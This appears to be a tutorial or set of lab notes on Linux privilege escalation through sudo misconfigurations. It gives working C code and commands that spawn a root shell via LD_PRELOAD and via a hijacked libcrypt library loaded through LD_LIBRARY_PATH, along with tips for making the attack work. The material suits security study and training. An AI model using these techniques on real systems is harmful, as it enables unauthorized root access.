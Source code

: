 # SUDO
The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges.

Any user can check its current situation related to root privileges using the command:
```
sudo -l
```
Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

## 📌Environment Variables:
Sudo can be configured to inherit certain environment variables from the user's environment.
Check which environment variables are inherited (look for the env_keep options):
```
sudo -l
```
**LD_PRELOAD** and **LD_LIBRARY_PATH** are both inherited from the user's environment. 
- **LD_PRELOAD:** loads a shared object before any others when a program is run.
- **LD_LIBRARY_PATH:** provides a list of directories where shared libraries are searched for first.

### 🔴Exploiting LD_PRELOAD:
LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.
The steps of this privilege escalation vector can be summarized as follows:
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
We need to run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
This will result in a shell spawn with root privileges.

### 🔴Exploiting LD_LIBRARY_PATH:
The LD_LIBRARY_PATH variable tells Linux where to look for shared libraries. If sudo allows this variable to be inherited, we can trick a root process into loading a malicious library.

**Step 1: Check Apache2 Dependencies**
```
ldd /usr/sbin/apache2
```
- **ldd** lists all shared libraries used by Apache2.
- Find a commonly used library name (e.g., libcrypt.so.1).

Example output:
```
libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f8a2d0f7000)
```
This means Apache2 loads **libcrypt.so.1** from the system libraries. We will replace it with a malicious version.

**Step 2: Create a Fake Malicious Library**
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /<PATH>/library_path.c
```
- Creates a fake **libcrypt.so.1** in **/tmp**.
- The file contains malicious code that executes a root shell.

Script of library_path.c is:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
**Step 3: Force Apache2 to Load the Fake Library**
```
sudo LD_LIBRARY_PATH=/tmp apache2
```
- Tells Apache2 to search /tmp first for libraries.
- Since we placed a fake libcrypt.so.1 in /tmp, Apache2 loads our malicious code, giving us root access.

✅ Root shell acquired!

# 🔎 Debugging & Improving the Attack
**What if it doesn't work?**

1️⃣ Try renaming the fake library to another dependency from ldd apache2.
```
mv /tmp/libcrypt.so.1 /tmp/libssl.so.1.1
```
2️⃣ Modify /home/user/tools/sudo/library_path.c to match the function signatures of the original library.

3️⃣ Check if LD_LIBRARY_PATH is truly inherited using sudo -l.
